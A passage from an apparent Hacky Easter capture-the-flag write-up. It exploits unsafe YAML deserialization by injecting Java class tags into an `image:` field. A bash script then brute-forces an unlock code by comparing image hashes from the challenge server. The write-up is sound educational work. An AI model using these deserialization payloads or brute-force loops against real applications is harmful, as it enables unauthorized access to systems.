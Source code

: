 So I thought:
"Damn it. If I should be able to use that exploit to load external classes from an URL, how in hell wouldn't I be able to call classes, methods and objects ALREADY THERE?"
Gathering everything, it was clear to me that I should try to inject the `image:` key.
Judging by the cover, I supposed it should start with something like `!!com.hackyeaster.digitalsnakeart.Flag [ ]`, so I started literally manually brute forcing words, positions, brackets, for hours! Until I got it right:

```yaml
name: Snakes at the Beach
image: !!com.hackyeaster.digitalsnakeart.Flag [ !!com.hackyeaster.digitalsnakeart.Code [ CODE ] ]
source: DALL-E
resolution: 256x256'
```

First thing I did was to craft a payload with a random code:
```bash
payload='name: Snakes at the Beach
image: !!com.hackyeaster.digitalsnakeart.Flag [ !!com.hackyeaster.digitalsnakeart.Code [ 30 ] ]
source: DALL-E
resolution: 256x256'

p=$(echo "$payload" | base64 -w0)
echo http://ch.hackyeaster.com:2307/art?art=$p
```
<img width="548" alt="image" src="https://user-images.githubusercontent.com/2973929/234149549-8df39d96-b204-4ce8-b565-9066d96bff09.png">


BAM! Different image! A snake with a lock!
After tyring other codes, I was sure that every time I got the code wrong I would see that image. So I got its md5 and wrote a shell script to test every code from 1 to 499:

```bash
#!/bin/bash
#
payload='name: Snakes at the Beach
image: !!com.hackyeaster.digitalsnakeart.Flag [ !!com.hackyeaster.digitalsnakeart.Code [ CODE ] ]
source: DALL-E
resolution: 256x256'


for i in {1..499}; do
        p=$(sed "s/CODE/$i/g" <<< "$payload")
        p=$(echo "$p" | base64 -w0)
        echo "tentando code=$i"
        curl -s "http://ch.hackyeaster.com:2307/art?art=$p" | grep -Eo "iVBOR[^\"]+" |base64 -d > out$i.png
        md5=($(md5sum out$i.png))
        [ "${md5[0]}" != "978e633da503b6de81d1fa44fce2f462" ] && {
                echo $i encontrado;
                echo "http://ch.hackyeaster.com:2307/art?art=$p"
                exit
        } || {
                echo "md5 de $i é $md5, igual a 978e633da503b6de81d1fa44fce2f462"
                rm out$i.png
        }
done
```
